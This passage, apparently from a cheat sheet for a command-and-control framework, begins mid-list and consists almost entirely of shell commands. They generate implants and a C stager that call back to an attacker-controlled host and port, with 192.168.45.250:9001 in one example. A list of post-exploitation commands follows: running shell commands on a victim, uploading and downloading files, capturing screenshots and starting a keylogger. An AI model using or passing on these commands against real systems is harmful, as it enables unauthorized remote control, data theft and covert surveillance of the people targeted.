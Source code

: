 5. **Generate a stageless payload**:
   ```bash
   generate --stageless --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

6. **Generate a payload for a specific platform**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME> --platform <PLATFORM>
   ```

### Shellcode Generation Example

```shell
generate stager --lhost 192.168.45.250 --lport 9001 --arch amd64 --format c --save ~/test.c
```

### Post-Exploitation Commands

1. **List active sessions**:
   ```bash
   sessions
   ```

2. **Interact with a session**:
   ```bash
   use <SESSION_ID>
   ```

3. **Execute a command on the target system**:
   ```bash
   shell <COMMAND>
   ```

4. **Upload a file to the target system**:
   ```bash
   upload <LOCAL_FILE> <REMOTE_PATH>
   ```

5. **Download a file from the target system**:
   ```bash
   download <REMOTE_FILE> <LOCAL_PATH>
   ```

6. **List files in a directory on the target system**:
   ```bash
   ls <REMOTE_DIRECTORY>
   ```

7. **Change directory on the target system**:
   ```bash
   cd <REMOTE_DIRECTORY>
   ```

8. **Capture a screenshot from the target system**:
   ```bash
   screenshot
   ```

9. **Record keystrokes on the target system**:
   ```bash
   keylogger start
   ```
